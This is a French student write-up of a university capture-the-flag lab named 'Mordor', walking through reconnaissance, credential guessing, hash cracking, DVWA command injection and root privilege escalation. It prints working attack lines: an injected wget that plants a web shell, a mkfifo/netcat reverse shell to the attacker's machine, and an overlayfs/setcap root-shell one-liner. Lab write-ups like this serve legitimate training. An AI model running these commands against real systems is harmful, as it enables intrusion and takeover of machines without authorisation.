By VINAI Florent & BELKACEMI Billal
# COMPTE RENDU CTF MORDOR Université de Sherbrooke MAITRISE CYBER 2023
[**Introduction ** ](#_page3_x72.00_y72.00)[Défi](#_page5_x72.00_y100.85) **[#1](#_page5_x72.00_y100.85) [:](#_page5_x72.00_y100.85) [Trouver](#_page5_x72.00_y100.85) [la](#_page5_x72.00_y100.85) [porte](#_page5_x72.00_y100.85) [d’entrée](#_page5_x72.00_y100.85) [de](#_page5_x72.00_y100.85) [Mordor](#_page5_x72.00_y100.85) [5**](#_page5_x72.00_y100.85)**

[**Défi](#_page6_x72.00_y273.29) **[#2](#_page6_x72.00_y273.29) [:](#_page6_x72.00_y273.29) [Intrusion](#_page6_x72.00_y273.29) [dans](#_page6_x72.00_y273.29) [Mordor](#_page6_x72.00_y273.29) [6**](#_page6_x72.00_y273.29)**

[**Défi](#_page11_x72.00_y214.59) **[#3](#_page11_x72.00_y214.59) [:](#_page11_x72.00_y214.59) [Accès](#_page11_x72.00_y214.59) [à](#_page11_x72.00_y214.59) [DVWA](#_page11_x72.00_y214.59) [de](#_page11_x72.00_y214.59) [Samwise](#_page11_x72.00_y214.59) [12**](#_page11_x72.00_y214.59)**

[**Défi](#_page13_x72.00_y413.09) **[#4](#_page13_x72.00_y413.09) [:](#_page13_x72.00_y413.09) [Accès](#_page13_x72.00_y413.09) [au](#_page13_x72.00_y413.09) [fichier](#_page13_x72.00_y413.09) [“telnetinfo.txt”](#_page13_x72.00_y413.09) [.](#_page13_x72.00_y413.09) [14**](#_page13_x72.00_y413.09)**

[**Défi](#_page18_x72.00_y100.85) **[#5](#_page18_x72.00_y100.85) [:](#_page18_x72.00_y100.85) [Escalade](#_page18_x72.00_y100.85) [de](#_page18_x72.00_y100.85) [Privilèges](#_page18_x72.00_y100.85) [19**](#_page18_x72.00_y100.85)**

[**Défi](#_page30_x72.00_y146.54) **[#6](#_page30_x72.00_y146.54) [:](#_page30_x72.00_y146.54) [Identification](#_page30_x72.00_y146.54) [de](#_page30_x72.00_y146.54) [l'employé](#_page30_x72.00_y146.54) [Mystère](#_page30_x72.00_y146.54) [31** ](#_page30_x72.00_y146.54)[Conclusion 34** ](#_page33_x72.00_y197.84)[Phase de Recommandations 35** ](#_page34_x72.00_y129.69)[Références 37**](#_page36_x72.00_y72.00)**

<a name="_page3_x72.00_y72.00"></a>
## Introduction

**Contexte du Capture The Flag (CTF)**

Dans le paysage dynamique et souvent impitoyable de la cybersécurité, la capacité à anticiper, à détecter, et à réagir efficacement aux menaces informatiques est primordiale. C'est dans cet esprit que nous, Florent et Billal, avons entrepris le challenge de Capture The Flag (CTF), une simulation complexe et réaliste conçue pour éprouver et affiner nos compétences en sécurité informatique. Ce CTF, plus qu'un simple exercice, est une immersion dans un univers où les compétences en test d'intrusion, en analyse de vulnérabilités et en résolution de problèmes sont essentielles.

**Objectifs Personnels et d'Équipe**

Notre duo, formé de deux profils complémentaires, s'est lancé dans cette aventure avec des objectifs bien définis. Billal, avec son intérêt prononcé pour la reconnaissance, s'est fixé pour but de perfectionner ses techniques d'exploitation. Florent, de son côté, a choisi de se concentrer sur l'analyse de vulnérabilités et l'escalade de privilèges, cherchant à approfondir sa compréhension des mécanismes de défense. Ensemble, notre objectif était de transcender la théorie classique de la cybersécurité pour acquérir une expérience pratique et tangible, une compétence indispensable dans notre parcours professionnel.

**Méthodologie Adoptée**

Notre approche méthodique s'est fondée sur une collaboration étroite et une planification stratégique. Nous avons abordé chaque défi du CTF en suivant un processus clair et structuré :

1. **Reconnaissance** : Cette phase initiale consistait à rassembler des informations, à identifier les points d'entrée potentiels, et à comprendre l'architecture du système cible.
1. **Analyse et Exploitation** : Armés des données collectées, nous avons développé et mis en œuvre des stratégies d'attaque, en adaptant nos techniques aux spécificités de chaque scénario.
1. **Documentation et Réflexion** : Chaque étape de notre parcours a été soigneusement documentée. Nous avons analysé nos succès et nos échecs, tirant des leçons cruciales de chaque expérience.

**Anticipation des Défis**

Conscients des difficultés inhérentes à un CTF de cette envergure, nous étions préparés à faire face à des scénarios complexes et à des obstacles imprévus. Les échecs, loin de nous décourager, ont été perçus comme des tremplins vers une meilleure compréhension et maîtrise des systèmes que nous analysions. Chaque commande non fructueuse, chaque piste infructueuse, nous a poussés à revoir notre approche et à affiner notre pensée critique.

**Structure du Rapport**

Ce rapport retrace notre voyage à travers les différents défis du CTF. Chaque section est dédiée à un défi particulier, mettant en lumière non seulement les techniques employées et les objectifs atteints, mais aussi les obstacles rencontrés et les leçons tirées. Nous espérons que nos expériences, nos réussites comme nos échecs, illustreront la valeur inestimable de l'apprentissage pratique en cybersécurité et inspireront d'autres passionnés à se lancer dans des aventures similaires.

<a name="_page5_x72.00_y100.85"></a>
## Défi #1 : Trouver la porte d’entrée de Mordor

Objectif: Identifier les vulnérabilités potentielles dans la machine cible pour planifier une attaque.

**Étapes Effectuées:**

- Scan du Réseau: Utilisation de Nmap pour déterminer l'adresse IP de la machine cible, identifiée comme ```192.168.0.121```
- Vérification de Connectivité: Test de la réactivité de la machine cible via un ping, confirmant qu'elle est en ligne et accessible.


On a trouvé que l’adresse ip de la machine est : **192.168.0.121**


<a name="_page6_x72.00_y273.29"></a>
## Défi #2 : Intrusion dans Mordor

**3-** Faire un nmap sur la machine cible pour voir les ports ouverts et extraire de

l’information :


On remarque que les ports **telnet (23)** et **http (80)** sont ouverts avec une version **Apache httpd 2.4.29**

**On a les même résultats avec legion :**

On peut déjà constater l’interface du site web avec légion et quelques CVEs pour la version d’apache :





On remarque que la CVE-2019-9517 a un score de vulnérabilité de 7.8, ça attire notre

attention, essayant de la trouver avec metasploit :


Aucun résultat :( .




On a trouvé une CVE critique pour la version d’Apache qui est la CVE-2023-25690. On va

essayer de l’exploiter avec metasploit.

Encore une fois pas de résultat :(


Perdant pas espoir, on va essayer un gobuster sur la machine cible pour extraire un

maximum d’information :


Pas mal d’informations intéressantes ici :)



Après plusieurs recherche sur le site web de la machine cible, on est tombé sur ça :


Directement après ça, on accède au répertoire todo.txt sur l’url du site.

Heuuummm … une belle énigme des seigneurs des anneaux !!


On remarque ici que sam doit changer son mot de passe car le prénom de sa femme est facile a deviner. Avec une petite recherche sur internet on trouve que le nom de la femme de sam s’appelle Rosie.


On a essayé de se connecter sur le dvwa. Marche pas avec les identifiant :

**user: sam password : rosie .**

On remarque que sur les informations sorties par Gobuster, on peut accéder à l’interface phpmyadmin, en essayant de se connecter avec les identifiants sam:rosie, ça fonctionne !! 😀



<a name="_page11_x72.00_y214.59"></a>
## Défi #3 : Accès à DVWA de Samwise


On a accès aux informations de la base de données

En parcourant le chemin ```mysql/tables/user``` on tombe sur ça.

On a trouvé des informations notamment le user et le dvwa et le hash du mot de passe, on a cherché le type du hash on a trouvé que c’est un hash SHA1 (SHA 128), en essayant de le décrypter on a aucun résultat.

Il faut trouver le mot de passe de Samwise Gamgee.

en parcourant le chemin ```dvwadb/users/``` nous avons ces informations


Intéressant ici !!!!! On a Samwisse Gamgee avec comme user sam et un hash du mot de passe.

Identifions quel algorithme est utilisé.


Le hash est en md5, maintenant nous allons essayer de le cracker avec l’outil Hashcat. Nous disposons comme matériel physique d'une RTX 4070, ce qui devrait être rapide pour cracker le mot de passe.

Voici notre commande hashcat : le processus se lance.


Le mot de passe a été trouvé instantanément! c'est **ringbearer**


**connection avec sam:ringbearer**


<a name="_page13_x72.00_y413.09"></a>
## Défi #4 : Accès au fichier “telnetinfo.txt” .

nous accédons à l'environnement DVWA.

On mets direct le niveau de sécurité à faible pour essayer d’exploiter le dvwa et trouver des vulnérabilités :



On constate qu’on a une faille d’injection XSS. En exécutant un script sur le lien du site on constate qu’on a une alerte qui nous affiche le cookie PHPSESSID.


On constate une faille d’injection SQL aussi, qui permet de nous afficher les utilisateurs présents dans la base de données.


Vu que le défi ici c’est de trouver le fichier **telnetinfo.txt** et afficher son contenu, on a tout de suite pensé à faire des *command injections* sur le dvwa pour pouvoir trouver le fichier en question et de pouvoir l’ouvrir pour prendre de l’information. (on aime faire ça haha )

Dans l'examen du code PHP que nous avons effectué, une faille majeure a été détectée liée à l'injection de commande. Cette faille découle de l'intégration directe des données utilisateur **(`$target`)** dans une instruction de système **(`ping`)**, sans aucun contrôle de sécurité. Faute de validation ou de nettoyage adéquat de ces données, il est possible pour une personne mal intentionnée de se servir de cette vulnérabilité pour lancer des commandes arbitraires sur le serveur. C'est dans ce cadre que nous avons employé la commande `1; find / -name telnetinfo.txt` dans le but de localiser le fichier concerné, démontrant ainsi la capacité d'utiliser cette vulnérabilité pour exécuter des commandes spécifiques et potentiellement malveillantes.


On a le chemin vers le fichier, donc la on peut juste faire un “cat” et voir ce que le fichier contient :


Super, nous avons réussi ! Nous avons découvert le nom d'utilisateur : frodo, ainsi que son mot de passe. Cependant, le mot de passe semble être sous forme de hash, nécessitant une analyse approfondie pour déterminer sa nature exacte et le moyen de le déchiffrer. Nous avons tenté une connexion via Telnet avec ce mot de passe sous forme de hash, mais cela n'a pas fonctionné. En analysant davantage le mot de passe, nous avons découvert qu'il était encodé en base 64. Une fois décodé, le véritable mot de passe de Frodo s'est révélé être : **TheOneToRuleThemAll**.


Ça marche !!!



<a name="_page18_x72.00_y100.85"></a>

## Défi #5 : Escalade de Privilèges

**Contexte et Motivation**

Avant de nous lancer dans ce défi, nous avions reçu des indications de notre professeur suggérant qu'il était possible de retrouver le fichier ".xlsx" nécessaire sans avoir à obtenir un accès root. Toutefois, en tant que pentesters passionnés et habitués des CTFs, nous visions à acquérir les privilèges les plus élevés sur la machine cible, une démarche qui, pour nous, représente le point culminant d'un test d'intrusion réussi. Parvenir à une escalade de privilèges n'est pas seulement une preuve de notre capacité à infiltrer un système, mais aussi à en prendre le contrôle complet.

Après avoir achevé le TP, nous avons découvert une seconde méthode d'escalade de privilèges, encore plus simple que la première. Dans notre compte-rendu, nous présenterons les deux méthodes, offrant ainsi une vision complète de nos démarches pour atteindre l'objectif final. Ces deux stratégies illustrent la diversité des approches possibles dans le domaine du pentesting et mettent en lumière l'importance d'une réflexion flexible et d'une adaptation constante aux différents défis de sécurité informatique.

**Exploration initiale etape 1**

Nous avons commencé par examiner les droits du compte utilisateur de Frodo ```(frodo:x:1001:1001:Frodo Baggins,,,:/home/frodo:/bin/bash)``` et avons constaté qu'ils étaient extrêmement limités. Dans son répertoire,un script Kernel\_exploit.sh , visant à exploiter la vulnérabilité CVE-2018-18955 du noyau Linux (4.15.x à 4.19.x avant la 4.19.2), une vulnérabilité dans la gestion des espaces de noms utilisateur permet une escalade de privilèges. Cette faille est due à un traitement incorrect des identifiants d'utilisateur et de groupe entre le noyau et l'espace de noms, permettant à un utilisateur avec des privilèges CAP\_SYS\_ADMIN de contourner les contrôles d'accès, comme lire des fichiers protégés (/etc/shadow).

Malheureusement, mes tentatives de le rendre exécutable ```(chmod +x)``` ont échoué à cause de l'absence de gcc et newuidmap.

**Stratégie Révisée Inspirée par l'Expérience HTB etape 1**

Face à l'impasse rencontrée avec le script Kernel\_exploit.sh,Nous avons dû repenser notre stratégie face à la machine cible fonctionnant sous Ubuntu 18.04 LTS et en version 4.15.0. Notre expérience sur Hack The Box (HTB) lors de la saison 3 a été déterminante dans notre approche de ce défi. En particulier, un lab de cette saison, basé sur un scénario dans un hôpital, nous a confrontés à la nécessité de pivoter entre différents comptes d'utilisateurs médicaux pour obtenir les droits d'accès root sur le serveur. Cette expérience spécifique s'est avérée extrêmement pertinente pour le défi actuel.

Durant ce lab HTB, nous avons développé une compréhension approfondie des subtilités des systèmes Linux, en particulier ceux fonctionnant sous des versions similaires à Ubuntu 18.04 LTS. Nous avons appris à identifier et à exploiter des vulnérabilités dans la gestion des utilisateurs et des privilèges, des compétences directement applicables au contexte du CTF auquel nous faisions face.

Nos notes de ce lab HTB, méticuleusement conservées, sont devenues une ressource précieuse. Elles contenaient des détails sur les stratégies d'escalade de privilèges que nous avions utilisées, ainsi que sur les défis rencontrés et les solutions trouvées. Ces notes nous ont permis de revoir et d'adapter les méthodes que nous avions déjà mises en œuvre avec succès, fournissant ainsi un cadre de référence pour développer une approche adaptée à la situation actuelle.

**PRIVESC d'Ubuntu 18.04 LTS etape 1**

Nous avons décidé d'importer directement le script LinPEAS de GitHub via git clone pour mieux comprendre la machine victime et réaliser une phase d'énumération plus efficace.




Nous avons utilisé LinPEAS pour analyser le système et identifier des vulnérabilités potentielles, ce qui a facilité notre stratégie d'escalade de privilèges sur Ubuntu 18.04 LTS.

Nos recherches nous ont conduits à essayer deux commandes spécifiques pour le privesc :

- **Première Commande** : ```unshare -rm sh -c "mkdir l u w m && cp /u\*/b\*/p\*3 l/"/```
- **unshare -rm sh -c**
  - **unshare** : Détache de l'espace de noms actuel et crée un nouvel espace.
  - **-r** : Exécute le processus en tant que root dans le nouvel espace de noms.
  - **-m** : Crée un nouvel espace de noms pour le montage.
  - **sh -c** : Exécute les commandes suivantes dans un shell.
- **mkdir l u w m && cp /u\*/b\*/p\*3 l/**
- Crée quatre répertoires (**l**, **u**, **w**, **m**).
- Copie le binaire Python 3 (recherché via **/u\*/b\*/p\*3**) dans le répertoire **l**. Ce binaire sera utilisé pour exécuter du code avec des privilèges élevés.

Cette commande utilise unshare pour créer un nouvel espace de noms utilisateur et configurer un système de fichiers en superposition. Elle implique la création de plusieurs répertoires et la copie d'un binaire Python, préparant ainsi le terrain pour l'escalade de privilèges.

- **Deuxième Commande** : ```setcap cap\_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/\*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'```
- **setcap cap\_setuid+eip l/python3**
  - **setcap** : Modifie les capacités des fichiers/programmes.
  - **cap\_setuid+eip** : Ajoute la capacité à **python3** de changer l'UID d'un processus (utile pour obtenir des privilèges élevés).
  - Appliqué à **python3** dans le répertoire **l**.
- **mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/\***
- Montage de type **overlay**, permettant de superposer un système de fichiers.
- **lowerdir=l** et **upperdir=u** définissent les répertoires de base et supérieur pour la superposition.
- **workdir=w** : Répertoire de travail pour le montage.
- **m** : Point de montage.
- **touch m/\*** : Crée de nouveaux fichiers dans le point de montage pour déclencher l'overlay.
- **u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'**
- Exécute **python3** depuis le répertoire **u**.
- Le script Python utilise **os.setuid(0)** pour changer l'UID du processus en 0 (root).
- **os.system("bash -i")** lance une shell interactive (**bash**) avec des privilèges root.

Cette commande complexifie le processus en établissant des privilèges sur le binaire Python, permettant ainsi son exécution avec des droits élevés. L'exécution de ce script Python me donne des privilèges root et ouvre une shell interactive avec ces privilèges.

**Résultats et Réflexions etape 1**

Lors de l'escalade de privilèges sur la machine cible, nous avons pris plusieurs captures d'écran clés pour documenter et appuyer notre processus. Voici les moments que nous avons choisis de capturer.

1. **Les Droits Limités du Compte de Frodo** :








Nous avons commencé par nous connecter au compte et voir les droits du compte de Frodo ainsi que quelques tests d'affichage avec le /etc/passwd et le fichier cache mysql history. Cette capture montre clairement les limitations initiales avec lesquelles nous devions travailler, posant les bases du défi d'escalade de privilèges.

2. **Le Script Kernel\_exploit.sh** :





Ensuite,nous avons pris une capture d'écran du script **Kernel\_exploit.sh** trouvé dans le répertoire de Frodo. Cette image est importante car elle montre la tentative d'exploiter la vulnérabilité CVE-2018-18955 et pourquoi nous avons dû chercher d'autres méthodes pour élever les privilèges du compte. (GCC a été installé juste après être passé en root).

3. **L'Exécution de la Première Commande** :


- Nous avons également capturé le processus de création des répertoires nécessaires et la copie du binaire Python grâce à la commande ``` unshare -rm sh -c "mkdir l u w m && cp /u\*/b\*/p\*3 l/"** ```. Cette étape était cruciale pour préparer le terrain pour l'exploitation ultérieure.
4. **Configuration et Montage Overlay avec la Deuxième Commande** :


- Une autre capture importante fut celle de la commande ```setcap cap\_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/\*;```. Elle illustre comment nous avons configuré le binaire Python pour l'escalade de privilèges et préparé le montage overlay.
5. **Obtention des Privilèges Root et Lancement de la Shell** :


- Enfin, la capture la plus satisfaisante a été celle où j'ai obtenu une shell root grâce à la commande ```u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'```. Cela a marqué le succès de mon escalade de privilèges.

Chacune de ces captures d'écran a joué un rôle vital dans la documentation de notre démarche, illustrant visuellement chaque étape clé du processus. Elles servent non seulement de preuves de notre succès, puisque nous avons réussi à obtenir un accès root sur la machine, mais aussi d'exemples éducatifs pour quiconque s'intéresse aux techniques d'escalade de privilèges dans des environnements similaires.

**Étapes pour passer root pour la privesc 2**

1. **Ouverture du serveur HTTP** :
- Nous avons commencé par mettre en place un serveur HTTP pour faciliter le transfert de fichiers.


2. **Énumération à la Racine du Dossier 'hackable'** :
- En explorant le dossier 'hackable', nous avons découvert un dossier 'flag', mais sans rien de concret à l'intérieur. Nous avons donc décidé de tenter d'injecter un fichier dans le dossier 'Uploads'.



3. **Injection de Fichier via la Command Injection** :
- Dans le champ de commande injection, j'ai saisi : ```google.com; wget http://192.168.44.134:8000/shell.php -O /var/www/html/dvwa/hackable/uploads/shell.php ```
- Cette commande utilise **wget** pour télécharger notre **shell.php** personnalisé dans le dossier 'Uploads' du serveur.


4. **Vérification du Téléchargement du Fichier** :
- Pour confirmer le succès de l'opération, nous avons utilisé la commande : ```192.168.44.134; ls -la /var/www/html/dvwa/hackable/uploads ``` . Le fichier 'shell.php' était bien présent.
5. **Accès au Shell Interactif** :
- Après nous être déplacés dans le dossier contenant 'shell.php', nous avons eu accès à un shell interactif (PwnyShell).




6. **Ouverture d'un Listener Netcat sur le Port 4444** :
- J'ai ensuite ouvert un listener Netcat sur mon ordinateur, écoutant sur le port 4444.


7. **Exécution de la Commande Netcat pour un Reverse Shell** :
- J'ai exécuté la commande ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.44.134 4444 >/tmp/f``` depuis le PwnyShell.
- Cette commande a créé un reverse shell, me connectant en tant que 'www-data' sur la machine cible.


8. **Élévation de Privilèges vers Root depuis 'www-data'** :
- Une fois connecté en tant que 'www-data', j'ai utilisé les techniques d'escalade de privilèges précédentes pour passer au compte root.



Ces étapes m'ont permis non seulement d'accéder à la machine cible en tant que 'www-data', mais aussi d'escalader mes privilèges pour obtenir un accès root. Cette approche, combinant une série de techniques d'injection, de téléchargement de fichiers malveillants, et d'exploitation de reverse shell, a démontré une compréhension approfondie des vulnérabilités web et des techniques d'escalade de privilèges.

<a name="_page30_x72.00_y146.54"></a>
## Défi #6 : Identification de l'employé Mystère

**Localisation des Fichiers .xlsx**

Une fois connectés en tant que compte root, nous avons utilisé la commande find / -type f -name "\*.xlsx" pour rechercher tous les fichiers se terminant par .xlsx sur la machine.


Parmi les fichiers trouvés, l'un d'eux, initialement dans la corbeille, a attiré notre attention. Ce fichier indiquait qu'il était erroné et que la version mise à jour se trouvait sur le bureau du général.


**Transfert du Fichier Correct**

Pour accéder au bon fichier, nous avons utilisé la commande SCP pour transférer le fichier .xlsx de la machine victime à notre PC local : scp nomdufichier pseudo@ipdelamachine:emplacementfinal.


Cette méthode était nécessaire car nous ne pouvions pas lire directement le fichier sur la machine victime.

**Accès au Bureau du Général**

Une fois le fichier transféré sur le bureau du général, nous avons découvert un fichier nommé aidememoire.txt.


**user: general password: StargateCommand!**

Ce fichier contenait les mots de passe du général, y compris celui nécessaire pour déverrouiller le fichier Excel.

par defaut le general ne pouvait se connecter car il était bloqué


nous avions modifier cela pour quil puisse se connecter


## Découverte du Flag du Défi 6

Nous avons commencé par déverrouiller le fichier Excel protégé, en utilisant le mot de passe "**ImTheBoss**" que nous avions trouvé précédemment. Cette étape clé nous a permis d'accéder au contenu du fichier, jusque-là inaccessible.



En explorant le fichier Excel déverrouillé, nous avons rapidement remarqué l'absence de la colonne D et de la ligne 6. Il semblait que ces éléments aient été intentionnellement masqués, ce qui a piqué notre curiosité et nous a incités à mener une analyse plus approfondie.



Notre examen minutieux des informations disponibles dans le fichier, en particulier des numéros de NAS, nous a conduit à une découverte majeure.

L'employé associé au *NAS 145875236* était identifié comme **Teal’c of Chulak**.

